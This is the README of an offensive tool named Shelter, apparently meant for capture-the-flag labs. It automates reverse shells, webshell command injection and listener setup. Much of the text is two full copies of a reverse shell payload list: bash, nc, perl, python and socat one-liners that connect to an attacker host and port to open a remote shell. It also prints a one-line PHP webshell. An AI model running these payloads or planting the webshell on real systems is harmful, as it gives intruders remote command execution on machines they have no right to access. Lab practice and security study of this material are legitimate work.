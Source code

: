 # Shelter
***

Shelter the magical Shell Handler.
![](img/Pasted_image_20210428200307.png)
## What is it ?

Shelter is a new way to catch reverse shell's and also reduces the effort of visiting `pentestmonkey` and `highoncoffee`frequently for reverse shell payloads and changing of the `Attacker-IP` and `Attacker-Port` everytime.

Shelter is made to perform in 4 mode's. The required mode can be easily set by passing the argument of the mode to the script.
- **rev** : Generates and copies reverse shell payload with `IP` and `port` set to clipboard and also starts up a netcat.
- **web** : Webshell interactor for GET parameter command injection in php.
- **webrev** : Convert's a classic GET parameter command injection in php to a reverse shell.
- **host** : Will host post exploitation module's like `pspy`,`linpeas` etc. from the attackbox using `python http.server` or `updog` and copy the web url to the clipboard. 

**This tool is focused towards the solver's of `hackthebox`, `tryhackme` or any other labs with `vpn` connection.**

***
## ✨ Features
### rev Module
- Generate and copy revshell payload with `ATTACKERIP`[default: tun0] and `ATTACKERPORT`. 
- Start's Up a netcat listener on that port for catching the shell.
- Support's `13` language's of reverse shell payload's all tested.
**Only Linux payload's are supported for now.**
- Reduces the hassle of visiting `pentestmonkey` or `highoncoffee` reverse shell cheatsheet for geting reverse shell payloads and changing the `IP` and `PORT` on it everytime.
**This tools is not claiming to be better than pentestmonkey or highoncoffee by any means.**
### web Module
- Reduces the hassle of writting commands in `burpsuite` in time of php parameter command injection and url encoding every time.
- Automatically, URL encodes the command before sending it.

### webrev Module
- Converts a dumb GET parameter command injection to a reverse shell.
- Generates a reverse shell payload with set `ATTACKERIP`[default : tun0] and `ATTACKERPORT` and sends it to webserver url encoded.
- Starts up a netcat listner on the given `ATTACKERPORT` for catching the shell.
### host Module[Coming Soon...]
- It will create a `www` directory with `phpreverseshell`, `powershell reverseshell`, while setting the `ATTACKERIP` and `ATTACKERPORT` and post exploitation tools like `pspy`,`linpeas`,`winpeas` etc. using `updog` or classic `python http.server`.
- It will also copy the url of the file hosted from the server to the clipboard for easy pasting and `wgetting`
***
## Usage
### Rev Module
#### Help Menu
```python
┌─[root@Xyan1d3]─[/opt/github/shelter]
└──╼ # ./shelter.py rev --help
usage: shelter.py rev [-h] {bash,bashi,bash196,bashrl,bash5,bashudp,nc_mkfifo,perl,py2,py,py2export,pyexport,socat} ...

optional arguments:
  -h, --help            show this help message and exit

Available Payloads:
  {bash,bashi,bash196,bashrl,bash5,bashudp,nc_mkfifo,perl,py2,py,py2export,pyexport,socat}
    bash                echo base64_encoded_bash-i_payload |base64 -d|bash
    bashi               bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1
    bash196             0<&196;exec 196<>/dev/tcp/ATTACKER_IP/ATTACKER_PORT; bash <&196 >&196 2>&196
    bashrl              exec 5<>/dev/tcp/ATTACKER_IP/ATTACKER_PORT;cat <&5 | while read line; do $line 2>&5 >&5; done
    bash5               bash -i 5<> /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0<&5 1>&5 2>&5
    bashudp             bash -i >& /dev/udp/ATTACKER_IP/ATTACKER_PORT 0>&1
    nc_mkfifo           rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc ATTACKER_IP ATTACKER_PORT >/tmp/f
    perl                perl -e 'use Socket;$i="ATTACKER_IP";$p=ATTACKER_PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton
                        ($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'
    py2                 python -c 'import
                        socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);
                        os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
    py                  python3 -c 'import
                        socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);
                        os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
    py2export           export RHOST="ATTACKER_IP";export RPORT=ATTACKER_PORT;python -c 'import
                        sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in
                        (0,1,2)];pty.spawn("bash")'
    pyexport            export RHOST="ATTACKER_IP";export RPORT=ATTACKER_PORT;python3 -c 'import
                        sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in
                        (0,1,2)];pty.spawn("bash")
    socat               socat TCP:ATTACKER_IP:ATTACKER_PORT EXEC:'bash',pty,stderr,setsid,sigint,sane
```
```python
┌─[root@Xyan1d3]─[/opt/github/shelter]
└──╼ # ./shelter.py rev py --help
usage: shelter.py rev py [-h] [--nohandler] [-i 127.0.0.1] [-p 8888]

optional arguments:
  -h, --help    show this help message and exit
  --nohandler   Copies only the revshell payload. [Does not start handler]
  -i 127.0.0.1  IP for reverse shell.
  -p 8888       PORT for reverse shell.
```

#### Taking a reverse shell from a docker container.
![](img/Pasted_image_20210428201310.png)

### Web Module
#### Help Menu
```python
┌─[root@Xyan1d3]─[/opt/github/shelter]
└──╼ # ./shelter.py web --help
usage: shelter.py web [-h] [-f F] [-param PARAM] [--ssl] [--nossl] URL

positional arguments:
  URL           Target URL [http://127.0.0.1/cmd.php]

optional arguments:
  -h, --help    show this help message and exit
  -f F          Filename of the webshell [Default : cmd.php]. Incase you enter only ip in url arg.
  -param PARAM  GET parameter to send commands.[Default: cmd]
  --ssl         Force HTTPS
  --nossl       Force downgrade to HTTP
```

By default it assume's filename `cmd.php` and GET parameter `cmd` if not specified as an argument.

The php code responsible for getting a simple GET parameter webshell.
```php
root@6a647b5a3d5f:~# cat cmd.php 
<?php system($_GET[cmd]); ?>
```
#### Webshell on a docker container.
![](img/Pasted_image_20210428202006.png)

### Webrev Module
#### Help Menu
```python
┌─[root@Xyan1d3]─[/opt/github/shelter]
└──╼ # ./shelter.py webrev --help                                                                                                                                        
usage: shelter.py webrev [-h] [-f F] [-param PARAM] [--ssl] [--nossl] URL {bash,bashi,bash196,bashrl,bash5,bashudp,nc_mkfifo,perl,py2,py,py2export,pyexport,socat} ...
                                                                                    
positional arguments:                                                                                                                                                    
  URL                   Target URL [http://127.0.0.1/cmd.php]                       
                                          
optional arguments:                                                                 
  -h, --help            show this help message and exit
  -f F                  Filename of the webshell [Default : cmd.php]. Incase you enter only ip in url arg.
  -param PARAM          GET parameter to send commands.[Default: cmd]                                                                                                    
  --ssl                 Force HTTPS                                                 
  --nossl               Force downgrade to HTTP
  
Available Payloads:                                                                                                                                                      
  {bash,bashi,bash196,bashrl,bash5,bashudp,nc_mkfifo,perl,py2,py,py2export,pyexport,socat}                                                                               
    bash                echo base64_encoded_bash-i_payload |base64 -d|bash          
    bashi               bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1                                                                                               
    bash196             0<&196;exec 196<>/dev/tcp/ATTACKER_IP/ATTACKER_PORT; bash <&196 >&196 2>&196                                                                     
    bashrl              exec 5<>/dev/tcp/ATTACKER_IP/ATTACKER_PORT;cat <&5 | while read line; do $line 2>&5 >&5; done                                                    
    bash5               bash -i 5<> /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0<&5 1>&5 2>&5
    bashudp             bash -i >& /dev/udp/ATTACKER_IP/ATTACKER_PORT 0>&1                                                                                               
    nc_mkfifo           rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc ATTACKER_IP ATTACKER_PORT >/tmp/f                                                             
    perl                perl -e 'use Socket;$i="ATTACKER_IP";$p=ATTACKER_PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton
                        ($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'                                                              
    py2                 python -c 'import                                                                                                                                
                        socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);          
                        os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'                                                                       
    py                  python3 -c 'import                                          
                        socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);          
                        os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'                                                                       
    py2export           export RHOST="ATTACKER_IP";export RPORT=ATTACKER_PORT;python -c 'import
                        sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in                    
                        (0,1,2)];pty.spawn("bash")'
    pyexport            export RHOST="ATTACKER_IP";export RPORT=ATTACKER_PORT;python3 -c 'import                                                                      
                        sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in
                        (0,1,2)];pty.spawn("bash")
    socat               socat TCP:ATTACKER_IP:ATTACKER_PORT EXEC:'bash',pty,stderr,setsid,sigint,sane
```
#### Revshell on a docker container.
![](img/Pasted_image_20210428223306.png)

***
# Disclaimer
Don't use this script for any malicious or illegal purpose's. The Author or any contributor of this repository or tool is not responsible for any of those activities.
